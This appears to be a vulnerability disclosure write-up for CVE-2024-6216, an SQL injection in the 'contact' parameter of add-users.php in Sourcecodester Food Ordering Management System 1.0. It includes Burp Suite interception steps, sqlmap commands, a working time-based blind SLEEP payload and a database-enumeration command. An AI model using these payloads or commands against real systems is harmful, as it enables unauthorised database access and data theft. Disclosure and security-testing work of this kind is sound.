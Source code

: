 ```yaml
---
title: CVE-2024-6216
draft: false
tags:
  - cve
---
```


# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-users.php)
## CVE-2024-6216
Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: add-users.php

Injection parameter: contact


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The contact parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on **Add** on the right bottom side, we can access add-user.php.

`http://172.16.76.1/foms/user.php`

![image](https://github.com/jadu101/CVE/assets/76433661/d0dfe8ac-c4a7-4659-8820-6badeaaf77e6)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/d0fb3ab7-30d9-4bf8-898e-96e8b2383110)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter contact is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-users-php.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/f3eeb76f-0be4-4d69-a3f2-b528be8ee3a3)

```
---
Parameter: contact (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=sdf&password=sdf&name=sdf&email=tese@sdf.cd&contact=123 AND (SELECT 5585 FROM (SELECT(SLEEP(5)))zByJ)&address=123&role=Customer&verified=0&deleted=0&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p contact --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/10add061-736f-40eb-a74d-9732f4ef6716)

